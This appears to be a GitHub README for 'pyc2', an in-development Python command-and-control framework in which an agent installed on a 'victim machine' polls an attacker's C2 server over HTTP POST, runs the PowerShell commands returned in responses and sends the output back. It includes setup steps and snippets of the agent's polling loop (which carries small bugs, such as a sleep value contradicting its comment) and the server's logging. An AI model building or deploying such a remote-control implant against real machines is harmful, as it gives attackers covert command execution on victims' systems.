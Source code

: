 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 framework that allows you to run Powershell commands in HTTP responses. 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

## Installation

Download the .py files and run them. 

## Usage

### Configure Agent.py

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL

```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
output = 'No command Ran'
    while True:
        command_to_run = http_sender(output)
        if command_to_run:
            output = run_powershell_command(command_to_run) 
        # Sleep for 2 minutes (120 seconds) before sending the next request   
        time.sleep(10)  
        count =+ 1
```

Each HTTP POST request will require you to enter a desired command from the server side that will be sent in the HTTP response message body

### Configure Server.py

Configure the host and port you wish to run the C2 server on 

```
host = "localhost"
port = 8080
```
Specify where you want to save the command output logs

```
        # Append the message body to a text file
        with open('received_messages.txt', 'a') as file:
            file.write(message_body + '\n')
```

## Summarized UML Sequence Diagram 

<img width="465" alt="image" src="https://github.com/dewardvide/pyc2-c2overPOSTresponse/assets/91884298/ff5801a8-8a8f-4f92-af0e-44bffb69c7f5">

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
